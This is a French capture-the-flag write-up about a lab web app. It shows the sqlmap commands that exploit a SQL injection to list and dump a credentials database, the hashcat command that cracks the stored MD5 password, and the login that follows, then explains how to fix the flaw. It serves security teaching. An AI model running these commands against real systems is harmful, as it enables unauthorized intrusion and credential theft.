



## COMMENT RÉCUPÉRER LE FLAG :

Avec l'utilitaire `sqlmap`, on va récupérer les bases de données. 
On réalise la commande suivante : `sqlmap -u http://10.74.2.235/?page=searchimg\&id=2\&Submit=Submit\ --level 3 --risk 3 --random-agent --tamper space2comment -dbs `

On récupère le nom de plusieurs bases de données, dont `Members_Brute_Force

On va ensuite les données présentes dans la base de données `Members_Brute_Force`. 
On réalise la commande suivante : `sqlmap -u http://10.74.2.235/?page=searchimg\&id=2\&Submit=Submit\ --level 3 --risk 3 --random-agent --tamper space2comment -D Members_Brute_Force --dump`

On obtient un couple de credentials : `root`/`admin`:`password`, sauf que le mot de passe est hashé en MD5. On va donc utiliser l'utilitaire `hashcat` pour le déhasher.
On réalise la commande suivante : `hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt`

On obtient le mot de passe : `shadow`. 
On réalise ensuite une connexion sur la page 'SIGN IN' avec le couple de credentials : `root`/`shadow`.

## COMMENT CORRIGER LA VULNÉRABILITÉ :
La vulnérabilité principale réside dans l'injection SQL, permettant l'extraction de données sensibles comme les identifiants. Pour corriger cela, il est impératif d'utiliser des requêtes préparées (prepared statements) ou des requêtes paramétrées pour toutes les interactions avec la base de données. Cela garantit que les entrées utilisateur sont traitées comme des données et non comme du code SQL, empêchant ainsi toute manipulation malveillante de la requête. 

Par exemple, au lieu de concaténer directement les valeurs dans la requête, utilisez des placeholders et passez les valeurs séparément. De plus, la gestion des mots de passe doit être renforcée : le hachage MD5 est obsolète et vulnérable aux attaques par dictionnaire et tables arc-en-ciel. Il faut migrer vers des algorithmes de hachage robustes et lents comme bcrypt, scrypt ou Argon2, toujours avec un sel unique pour chaque mot de passe. Enfin, une politique de mots de passe forts devrait être appliquée, exigeant une complexité minimale et des changements réguliers.

